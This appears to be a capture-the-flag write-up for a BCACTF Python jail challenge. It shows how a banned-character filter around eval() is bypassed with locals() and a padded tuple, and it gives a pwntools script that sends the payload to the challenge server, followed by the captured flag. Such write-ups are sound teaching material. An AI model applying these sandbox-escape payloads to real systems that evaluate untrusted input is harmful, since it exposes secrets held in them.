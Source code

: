 # misc/JailBreak 2

<p align = "center"><img src="challenge.jpg" alt="alt text" width="75%" height="75%" /></p>

<details> 
  <summary><b>Hint 1</b></summary>
   What in python is evaluated to a number?
</details>

This is the second of three PyJail challenges in this CTF. For all three challenges, the flag is initialized as a local variable.

```python
flag = open('flag.txt').read().strip()
```

For this challenge, we get to input a message. While the first challenge uses `exec()` on our message, this challenge uses `eval()` instead, and is much easier as it prints out the output for you.

Before our message is evaluated, we would need to bypass the banned character list as shown below:

```python
BANNED_CHARS = "gdvxfiyundmnet/\\'~`@#$%^&.{}0123456789"
```

just like JailBreak 1, we will use `locals()` as it is not blacklisted. Next, we notice a length constraint after the `eval()`, where `len(eval(msg)) == len(flag)`. We can do a trial-and-error, where we store `locals()` in a tuple and increase the tuple size until it is equal to the length of the flag.

```python
from pwn import *

payload = '(locals(), '
end_payload = ')'

i = 1
while True:
    payload += '"", '
    final_payload = (payload + end_payload).encode()

    p = remote("challs.bcactf.com", 30335)

    p.recvuntil(b"message:")
    p.sendline(final_payload)
    received = b""
    while b"Deleted!" not in received and b"flag" not in received:
        received += p.recv(4096)
    if b"flag" in received:
        print(received)
        break

    p.close()

    i += 1
```

We then obtain the flag as such:

```
bcactf{PyTH0n_M4st3R_Pr0veD}
```
